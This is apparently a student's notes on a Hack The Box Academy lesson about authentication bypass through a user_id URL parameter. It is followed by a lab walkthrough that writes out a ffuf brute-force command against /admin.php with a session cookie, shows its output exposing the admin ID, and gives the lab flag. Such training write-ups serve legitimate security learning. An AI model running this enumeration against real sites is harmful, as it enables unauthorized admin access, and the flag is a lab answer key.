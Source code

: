 ```yaml
---
aliases:
  - Authentication Bypass via Parameter Modification
sticker: emoji//1faaa
---
```


# Authentication Bypass via Parameter Modification

An authentication implementation can be flawed if it depends on the presence or value of an HTTP parameter, introducing authentication vulnerabilities. As in the previous section, such vulnerabilities might lead to authentication and authorization bypasses, allowing for privilege escalation.

This type of vulnerability is closely related to authorization issues such as `Insecure Direct Object Reference (IDOR)` vulnerabilities, which are covered in more detail in the [Web Attacks](https://academy.hackthebox.com/module/details/134) module.

***

### Parameter Modification

Let us take a look at our target web application. This time, we are provided with credentials for the user `htb-stdnt`. After logging in, we are redirected to `/admin.php?user_id=183`:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_1.png)

In our web browser, we can see that we seem to be lacking privileges, as we can only see a part of the available data:

&#x20; &#x20;

![](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_2.png)

To investigate the purpose of the `user_id` parameter, let us remove it from our request to `/admin.php`. When doing so, we are redirected back to the login screen at `/index.php`, even though our session provided in the `PHPSESSID` cookie is still valid:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_3.png)

Thus, we can assume that the parameter `user_id` is related to authentication. We can bypass authentication entirely by accessing the URL `/admin.php?user_id=183` directly:

![image](https://academy.hackthebox.com/storage/modules/269/bypass/bypass_param_4.png)

Based on the parameter name `user_id`, we can infer that the parameter specifies the ID of the user accessing the page. If we can guess or brute-force the user ID of an administrator, we might be able to access the page with administrative privileges, thus revealing the admin information. We can use the techniques discussed in the `Brute-Force Attacks` sections to obtain an administrator ID. Afterward, we can obtain administrative privileges by specifying the admin's user ID in the `user_id` parameter.

***

### Final Remark

Note that many more advanced vulnerabilities can also lead to an authentication bypass, which we have not covered in this module but are covered by more advanced modules. For instance, Type Juggling leading to an authentication bypass is covered in the [Whitebox Attacks](https://academy.hackthebox.com/module/details/205) module, how different injection vulnerabilities can lead to an authentication bypass is covered in the [Injection Attacks](https://academy.hackthebox.com/module/details/204) and [SQL Injection Fundamentals](https://academy.hackthebox.com/module/details/33) modules, and logic bugs that can lead to an authentication bypass are covered in the [Parameter Logic Bugs](https://academy.hackthebox.com/module/details/239) module.

## Question

***

![](images/Pasted%20image%2020250214182725.png)

Once we've authenticated, we can see the following:

![](images/Pasted%20image%2020250214182813.png)

We get assigned an user id in the URL and we're also told we don't have admin privileges, we can brute-force the admin id in the following way:

First, create a wordlist of digits from 1 to 1000:

```bash
seq 1 1000 > digits.txt
```

Now, do the following ffuf command:

```
ffuf -w digits.txt -u "http://IP:PORT/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=our_cookie" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w digits.txt -u "http://94.237.48.103:39253/admin.php?user_id=FUZZ" -fr "Could not load admin data. Please check your privileges" -b "PHPSESSID=9i2epg991j6af0vvgp56v9rnav" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.48.103:39253/admin.php?user_id=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/digits.txt
 :: Header           : Cookie: PHPSESSID=9i2epg991j6af0vvgp56v9rnav
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Could not load admin data. Please check your privileges
________________________________________________

372                     [Status: 200, Size: 14465, Words: 4165, Lines: 429, Duration: 2667ms]
```

So, admin user's id is `372`, let's log into admin panel:

![](images/Pasted%20image%2020250214183900.png)

Flag is:

```
HTB{63593317426484ea6d270c2159335780}
```
